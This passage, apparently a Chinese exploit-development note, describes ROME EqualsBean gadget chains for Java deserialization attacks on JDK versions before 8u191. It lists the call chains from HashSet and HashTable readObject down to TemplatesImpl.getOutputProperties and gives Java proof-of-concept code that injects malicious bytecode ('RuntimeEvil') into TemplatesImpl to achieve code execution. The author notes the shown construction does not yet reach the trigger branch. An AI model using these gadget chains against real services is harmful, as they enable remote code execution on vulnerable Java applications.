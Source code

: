 适用于jdk8<8u191，大于这个版本请转高版本绕过



### EqualsBeans链

触发点在EqualsBeans.beanEquals，适用于ToStringBean被ban的情况，原理见1.2

利用链

```java
HashSet.readObject
HashMap.put
HashMap.putval
HashMap.equals
Abstractmap.equals
EqualsBean.equals
EqualsBean.beanEquals
TemplatesImpl.getOutputProperties()
```

或者

```java
HashTable.readObject(ObjectInputStream)
HashTable.reconstitutionPut()
HashMap.equals
AbstractMap.equals
EqualsBean.equals
EqualsBean.beanEquals
TemplatesImpl.getOutputProperties()
```

同理能用LinkedHashSet封装，也可以beanEquals.equals接前面提到的链套娃

#### HashSet or HashMap链

我们构造到去触发hashMap.equals时，发现走不进那个else

```java
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        EqualsBean equalsBean = new EqualsBean(Templates.class, templatesClass);
//        equalsBean.equals(fakeTemplates);
        HashMap hashMap = new HashMap();
        hashMap.put(fakeTemplates, "godown");
        hashMap.put(equalsBean, "godown");
    }
```

